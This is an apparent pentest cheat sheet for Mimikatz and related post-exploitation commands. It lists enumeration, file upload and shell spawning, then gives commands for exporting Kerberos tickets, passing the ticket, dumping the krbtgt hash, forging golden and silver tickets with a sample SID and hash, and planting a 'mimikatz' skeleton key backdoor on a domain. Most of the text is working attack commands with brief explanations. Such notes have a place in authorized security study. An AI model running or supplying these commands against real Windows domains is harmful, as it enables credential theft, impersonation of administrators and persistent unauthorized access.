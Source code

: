```yaml
---
title: MIMIKATZ
summary: "A tool to play with Windows security, written in C."
description: "A tool to play with Windows security, written in C."
---
```


**[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)**

## Basis


 > 
 > **<font color=red>load kiwi</font>**</br>
 > Starts Mimikatz.

 > 
 > **<font color=red>help kiwi</font>**</br>
 > Show Mimikatz commands.


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure that current user has administrator privileges (the output should be `[output '20' OK]`). This indicates that debugging a process is possible.

## Enumeration


 > 
 > **<font color=red>systeminfo</font>**</br>
 > Display system infos.
 > 
 > **<font color=red>ipconfig</font>**</br>
 > Display infos about network interfaces.

 > 
 > **<font color=red>getuid</font>**</br>
 > User infos.
 > 
 > **<font color=red>getprivs</font>**</br>
 > Display current user privileges. 

## File Upload


 > 
 > **<font color=red>upload</font> myFile**</br>
 > Transfer file to target.

## Spawn Shell


 > 
 > **<font color=red>shell</font>**</br>
 > Open a shell.

## Initial Access


 > 
 > **<font color=red>misc::cmd</font>**</br>
 > Open a new elevated command prompt with the given ticket in Minikatz.

 > 
 > **<font color=red>dir \\\\TARGET-MACHINE-NAME\\c$</font>**</br>
 > List files in c drive of the machine.

 > 
 > **<font color=red>PsExec.exe </font>\\\\TARGET-MACHINE-NAME<font color=red>cmd.exe</font>**</br>
 > Get a shell on the machine.

## Pass the Ticket


 > 
 > **<font color=red>sekurlsa::tickets /export</font>**</br>
 > Export all `.kirbi` tickets into the current directory.


 > 
 > **<font color=red>kerberos::ptt</font> myTicketFromSekurlsa<font color=red>.kirbi</font>**</br>
 > Cache and impersonate the given ticket.

## Golden/Silver Ticket


 > 
 > **<font color=red>lsadump::lsa /inject /name:</font>krbtgt**</br>
 > Dump hash and security identifier required to create a Golden Ticket. 

Note: To create a Silver Ticket, change the `/name:` to a domain admin account or a service account.

![exploit-lsadump-golden_ticket.png](../../attachments/exploit-lsadump-golden_ticket.png)
Credit: TCM Security

 > 
 > **<font color=red>kerberos::golden /user:</font>Administrator <font color=red>/domain:</font>mycontroller.local <font color=red>/sid:</font>S-1-5-21-432953485-3795405108-1502158860  <font color=red>/krbtgt:</font>72cd714611b64cd4d5550cd2759db3f6 <font color=red>/id:500 /ptt</font>**</br>
 > Create a golden ticket (`/ptt` stands for Pass The Ticket, if we don’t put it, the command will save the ticket to a file).

Note: To create a Silver Ticket, simply put a service NTLM hash into the `/krbtgt:` slot, the sid of the service account into `/sid:`, and change the `/id:` to 1103.

## Skeleton Key


 > 
 > **<font color=red>misc::skeleton</font>**</br>
 > Create a backdoor with credentials "mimikatz". 

 > 
 > **<font color=red>dir \\\\</font>Desktop-1<font color=red>\\c$</font> <font color=red>/user:</font>Machine1 <font color=red>mimikatz</font>**</br>
 > List C: drive content using Skleton Key backdoor. 
